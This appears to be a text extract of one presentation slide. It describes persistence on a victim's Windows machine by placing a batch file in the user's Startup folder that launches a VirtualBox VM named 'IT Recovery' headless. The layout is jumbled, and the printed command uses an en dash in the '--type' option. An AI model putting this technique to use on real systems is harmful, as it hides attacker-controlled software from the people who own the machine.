

# Start VM via Startup Folder (VirtualBox on Windows)
Simple solution  `config.bat` with the following command in it:

Save the file to the victim’s startup folder at:

 start /min "C:\Program Files\Oracle\VirtualBox\VBoxManage.exe"
       startvm "IT Recovery"
       –type headless
 %USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup